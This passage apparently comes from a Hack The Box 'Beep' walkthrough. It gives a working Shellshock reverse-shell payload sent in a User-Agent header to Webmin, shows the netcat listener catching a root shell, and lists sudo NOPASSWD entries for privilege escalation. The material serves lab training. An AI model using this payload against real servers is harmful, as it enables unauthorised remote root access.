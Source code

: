 ### Webmin Shellshock

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/beep)

Webmin using `session_login.cgi`, it can be exploit using shellshock payload.

Payload:

`User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'`

![](images/8.png)

Listener in Kali machine

```
┌──(Hades㉿10.10.14.5)-[2.1:30.8]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.7] 40293
bash: no job control in this shell
[root@beep webmin]# id
uid=0(root) gid=0(root)
[root@beep webmin]#
```

## Privilege Escalation

### Sudo and Suid

Back to shell at `LFI and Postfix smtpd`, I enumed server with [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```
bash-3.2$ sudo -l
<snip>

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```
